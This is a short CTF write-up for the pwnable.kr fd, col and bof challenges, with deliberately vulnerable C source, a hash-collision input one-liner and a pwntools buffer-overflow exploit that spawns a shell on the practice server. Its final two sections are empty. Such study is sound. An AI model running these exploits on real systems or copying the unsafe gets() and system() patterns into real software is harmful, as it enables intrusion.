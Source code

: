 # pwn.kr

## 01 fd
fd == 	0 -> stdin;
	1 -> stdout;
	2 -> stderror;

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```
## 02 col
```sh
./col `python -c "print '\x01' * 16  + '\xE8' + '\x05' + '\xd9' + '\x1D' " `
```
hash collision, just find the hash value and fake an input to reach the value.

```c
#include <stdio.h>
#include <string.h>
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
	int* ip = (int*)p;
	int i;
	int res=0;
	for(i=0; i<5; i++){
		res += ip[i];
	}
	return res;
}

int main(int argc, char* argv[]){
	if(argc<2){
		printf("usage : %s [passcode]\n", argv[0]);
		return 0;
	}
	if(strlen(argv[1]) != 20){
		printf("passcode length should be 20 bytes\n");
		return 0;
	}

	if(hashcode == check_password( argv[1] )){
		system("/bin/cat flag");
		return 0;
	}
	else
		printf("wrong passcode.\n");
	return 0;
}
```
## 03 bof
bof vulnerability with out limitation.
A backdoor, overwriting the local `key` valuable is all you need.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

here is the exp:
```py
#!/bin/python3

from pwn import *

# io = process('./bof')
io = remote('pwnable.kr', 9000)
# elf = ELF('./bof')

payload = b''
payload += p32(0xcafebabe) * 20

io.sendlineafter(b'me : ', payload)

io.interactive()
```

## 04 

## 05
